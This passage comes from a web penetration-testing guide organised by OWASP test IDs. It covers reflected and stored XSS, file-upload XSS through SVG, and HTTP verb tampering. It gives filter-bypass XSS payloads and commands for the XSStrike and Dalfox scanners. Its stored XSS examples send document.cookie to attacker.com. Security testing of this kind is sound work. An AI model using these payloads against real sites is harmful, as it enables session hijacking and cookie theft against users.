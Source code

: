 #### Advanced XSS Techniques
```javascript
// Filter bypass techniques
<ScRiPt>alert('XSS')</ScRiPt>
<script>al\u0065rt('XSS')</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>

// DOM-based XSS
location.hash.slice(1)
document.referrer
window.name
```

#### XSS Testing Automation
```bash
# XSStrike for automated XSS testing  
python3 xsstrike.py -u "https://target.com/search?q=FUZZ"

# Dalfox for parameter analysis
dalfox url https://target.com/search?keyword=test
```

### 7.2 Test for Stored Cross Site Scripting (OTG-INPVAL-002)

#### Stored XSS Testing
```html
<!-- Comment/profile field testing -->
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://attacker.com/steal?cookie=' + document.cookie);
    xhr.send();
</script>

<!-- Image tag with onerror -->
<img src="invalid" onerror="window.location='https://attacker.com/steal?cookie='+document.cookie">
```

#### File Upload XSS
```html
<!-- SVG file with embedded JavaScript -->
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('Stored XSS in SVG')">
  <circle cx="100" cy="100" r="50" fill="red"/>
</svg>
```

### 7.3 Test for HTTP Verb Tampering (OTG-INPVAL-003)

#### HTTP Method Testing
```bash
# Test various HTTP methods
for method in GET POST PUT DELETE PATCH HEAD OPTIONS TRACE; do
    curl -X $method https://target.com/api/users/123 -H "Authorization: Bearer token"
done
```
